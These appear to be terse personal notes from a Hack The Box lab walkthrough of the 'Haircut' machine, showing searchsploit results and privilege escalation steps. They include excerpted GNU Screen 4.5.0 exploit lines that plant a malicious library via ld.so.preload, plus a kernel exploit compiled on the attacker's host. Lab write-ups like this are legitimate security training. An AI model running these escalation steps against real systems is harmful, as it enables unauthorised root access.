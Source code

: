 

kali@kali:~/htb/boxes/Haircut/10.10.10.24$ searchsploit screen 4.5
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                         | linux/local/41152.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results



replaced lines

/usr/bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
/usr/bin/screen-4.5.0 -ls # screen itself is setuid, so... 


gcc: error trying to exec 'cc1': execvp: No such file or directory


Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                               | linux/local/45010.c



gcc 45010.c -o 45010
could not compile on victim, needed to compile on host


![](2021-02-15-15-23-06.png)